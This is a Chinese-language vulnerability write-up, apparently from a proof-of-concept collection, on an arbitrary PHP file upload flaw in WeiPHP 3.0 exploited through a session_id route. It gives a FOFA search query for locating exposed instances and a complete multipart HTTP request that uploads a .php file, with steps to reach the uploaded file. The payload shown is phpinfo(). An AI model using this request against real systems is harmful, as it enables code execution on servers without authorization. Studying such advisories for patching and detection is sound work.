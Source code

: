 # 

# WeiPHP3.0 session_id 任意文件上传漏洞

## 漏洞描述

WeiPHP3.0 session_id 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

```
WeiPHP3.0
```

## 网络测绘

```
app="weiphp"
```

## 漏洞复现

登陆页面标识

![img](./images/202202162318569.png)

发送请求包上传文件

```php
POST /index.php?s=%2FHome%2FFile%2Fupload%2Fsession_id%2Fscevs8hub3m5ogla05a421hb42.html HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 831
Content-Type: multipart/form-data; boundary=------------------------e37a54d7d5380c9f
Accept-Encoding: gzip

--------------------------e37a54d7d5380c9f
Content-Disposition: form-data; name="download"; filename="882176.php"
Content-Type: application/octet-stream

<?php
phpinfo();

--------------------------e37a54d7d5380c9f--
```

![img](./images/202202162318518.png)

获取目录后访问回显的 path

![img](./images/202202162318407.png)

